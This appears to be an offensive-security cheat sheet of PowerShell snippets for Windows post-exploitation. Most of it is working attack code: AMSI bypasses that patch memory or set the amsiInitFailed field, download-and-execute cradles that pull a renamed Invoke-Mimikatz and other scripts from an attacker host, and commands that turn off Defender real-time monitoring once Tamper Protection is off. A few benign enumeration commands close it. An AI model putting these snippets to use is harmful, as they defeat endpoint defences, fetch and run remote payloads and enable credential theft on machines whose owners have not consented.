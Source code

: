 
- Bypass AMSI with powershell (*Note* probably Win10 only)
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

- Win10 Bypass AMSI through amsiInitFailed (does not work on Win11 as far as I can tell)
	- Error on Win11 `MethodInvocationException: Exception calling "SetValue" with "2" argument(s): "Cannot set initonly static field 's_amsiInitFailed' after type 'System.Management.Automation.AmsiUtils' is initialized."`
	- TODO: research this more
```powershell
$a=[Ref].Assembly.GetTypes()
Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}}
$d=$c.GetFields('NonPublic,Static')
Foreach($e in $d) {if ($e.Name -like "*ms*nit*ai*") {$f=$e}}
$g=$f.SetValue($null,$true)
```


### Bypassing AMSI to execute malicious scripts 

- ASMI Bypass Powershell code with inspiration from (https://medium.com/@sam.rothlisberger/amsi-bypass-memory-patch-technique-in-2024-f5560022752b)
	- use ASBB.ps1 as a base
	- If downloading scripts that will be flagged by AMSI, rename them
	- add download code for these scripts at the end of ASBB.ps1
	- example for `Invoke-Mimikatz.ps1` which is renamed to `IM.ps1`
```powershell
(New-Object System.Net.WebClient).DownloadString(‘http://attacker.ip/IM.ps1') | IEX
```
- Download example
```powershell
iex -Debug -Verbose -ErrorVariable $e -InformationAction Ignore -WarningAction Inquire “iex(New-Object System.Net.WebClient).DownloadString(‘http://attacker.ip/ASBB.ps1')”
```

- Tamper Protection status:
	- If the output is `False`, Tamper Protection is enabled.
	-  If the output is `True`, Tamper Protection is disabled.
```powershell
(Get-MpPreference).DisableTamperProtection
```

- Disable Defender if Tamper Protection is off
```powershell
Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true
```

- Download and execute Powershell script

```powershell
 iex (New-Object Net.WebClient).DownloadString('http://ipaddress/script.ps1')
```

```powershell
Invoke-Expression -Command (Invoke-WebRequest -Uri 'http://ipaddress/script.ps1').Content
```

- View Applocker Policy
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

### Users

- Who is logged in?
```powershell
Get-WmiObject -Class Win32_ComputerSystem | Select-Object -ExpandProperty UserName
```

